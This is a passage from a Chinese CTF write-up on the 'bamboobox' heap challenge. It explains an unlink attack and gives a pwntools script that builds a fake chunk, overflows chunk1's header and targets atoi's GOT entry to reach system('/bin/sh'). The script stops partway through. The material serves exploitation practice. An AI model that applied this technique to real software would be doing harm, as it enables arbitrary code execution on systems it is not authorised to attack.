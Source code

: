 ## hitcontraining_bamboobox
这题有两种做法 暂时只会unlink,house of force方法后面再补

在chunk0中构造一个大小为0x80的fake_chunk，通过change函数让堆溢出修改chunk1的prev_size和size，让prev_inuse为0，这个时候free chunk1，就可以让fake_chunk和chunk1合并，对fake_chunk进行unlink，指针ptr变成ptr-0x18，现在修改chunk0的content，相当于修改了ptr-0x18(0x6020b0)，改写成atoi_got，通过show函数泄露atoi的函数地址，计算libc的偏移，最后再把atoi_got改成system_got，输入/bin/sh 来getshell
```python
#!coding: utf-8
from pwn import *
context.log_level='debug'

#r=remote('node3.buuoj.cn',27353)
r=process('./bamboobox')
elf=ELF('./bamboobox')
libc=ELF('./libc-2.23.so')

def Add(size,content):
        r.recvuntil('Your choice:')
        r.sendline('2')
        r.recvuntil('Please enter the length of item name:')
        r.send(str(size))
        r.recvuntil('Please enter the name of item:')
        r.send(content)

def Edit(index,size,content):
        r.recvuntil('Your choice:')
        r.sendline('3')
        r.recvuntil('Please enter the index of item:')
        r.send(str(index))
        r.recvuntil('Please enter the length of item name:')
        r.send(str(size))
        r.recvuntil('Please enter the new name of the item:')
        r.send(content)

def Show():
        r.recvuntil('Your choice:')
        r.sendline('1')

def Free(index):
        r.recvuntil('Your choice:')
        r.sendline('4')
        r.recvuntil('Please enter the index of item:')
        r.send(str(index))

ptr=0x6020c8
fd=ptr-0x18
bk=ptr-0x10

#chunk的大小都要大于fastbin的范围，因为fastbin无法unlink
#只有双向链表才有unlink，fastbin是单向链表
Add(0x80,'a'*0x8) # chunk0
Add(0x80,'b'*0x8) # chunk1

#fake_chunk
payload=p64(0)+p64(0x81) #prev_size and size
payload+=p64(fd)+p64(bk) #fd and bk 
payload=payload.ljust(0x80,'a') #填充剩余空间
payload+=p64(0x80)+p64(0x90) #覆盖chunk1的prev_size和size

Edit(0,len(payload),payload)
Free(1)

payload='a'*0x18+p64(elf.got['atoi'])
```